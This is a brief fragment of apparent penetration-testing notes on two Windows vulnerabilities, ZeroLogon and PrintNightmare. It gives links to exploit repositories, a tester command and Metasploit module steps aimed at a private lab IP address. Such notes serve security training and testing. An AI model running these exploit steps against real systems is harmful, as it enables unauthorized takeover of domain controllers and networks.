 
- ZeroLogon Checker
	- https://github.com/SecuraBV/CVE-2020-1472
- Exploit
	- https://github.com/dirkjanm/CVE-2020-1472

* **Abusing ZeroLogon**: Exploit ZeroLogon vulnerability.
	- Exploit ZeroLogon vulnerability.
		```bash
		zerologon_tester.py -i 192.168.57.45
		```
* **PrintNightmare (CVE-2021-1675) Walkthrough**: Exploit PrintNightmare vulnerability.
	- Exploit PrintNightmare vulnerability.
		```bash
		msfconsole
		use exploit/windows/local/printnightmare
		set RHOSTS 192.168.57.45
		```

